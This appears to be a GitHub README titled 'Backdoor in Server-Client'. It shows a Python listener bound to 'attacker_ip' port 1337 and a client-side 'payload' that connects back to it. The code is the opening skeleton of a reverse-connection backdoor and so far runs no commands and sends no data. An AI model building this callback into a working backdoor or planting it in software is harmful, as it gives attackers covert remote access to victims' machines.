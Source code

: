 <h2 align="center">Backdoor in Server-Client</h2>
<p align="center"><img width="350" height="350" src="./src/banner_cnph.gif"></p>

- - - - - - - - - - - - - - - - - - - - - -
> [listener.py](listener.py)
```python
import socket

listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

listener.bind(("attacker_ip", 1337))

listener.listen()

print("Server has started")

## If there will be a communication to be accepted
## use accept method to listener, then get the connection and address
connection, address = listener.accept()
print(f"Connected to {address}")
```
---
> [payload.py](payload.py)
```python
## payload to be excuted in the client side
import socket

## create the object of socket module
## instantiate payload object with the same constant from listener
payload = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

## call the connect method on payload
## connect method will take the tuple with 2 arguments same as from listener
payload.connect(("attacker_ip", 1337))

print("Connected")
```